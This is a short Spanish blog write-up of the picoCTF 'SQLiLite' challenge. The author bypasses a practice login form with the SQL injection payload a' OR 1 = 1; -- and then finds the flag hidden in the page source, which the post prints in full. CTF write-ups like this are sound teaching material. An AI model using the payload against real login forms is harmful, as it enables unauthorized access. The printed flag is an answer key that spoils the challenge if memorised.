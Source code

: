 ```yaml
---
title: SQLiLite
date: 2025-05-19 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, sqlite, explotacion web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SQLiLite
Author: Mubarak Mikail
Description
Can you login to this website? Try to login here.
{: .prompt-tip }

Nada más abramos la instancia, y carguemos la página web veremos el típico formulario de login, las pistas dicen que el usuario es 
admin. ¿Probamos con alguna inyección SQL como vimos anteriormente? [picoctf-moresqli](../picoctf-moresqli)

>a' OR 1 = 1; --

```
username: admin
password: a' OR 1 = 1; --
SQL query: SELECT * FROM users WHERE name='admin' AND password='a' OR 1 = 1; --'

Logged in! But can you see the flag, it is in plainsight.
```

Efectivamente funciona pero no podemos ver la flag. Procedo a ver el código fuente de la página a la que hemos accedido y voilá.

``` html
<pre>username: admin
password: a&#039; OR 1 = 1; --
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;a&#039; OR 1 = 1; --&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```

flag **picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}**

De nuevo SQLi, casi una repeteción. 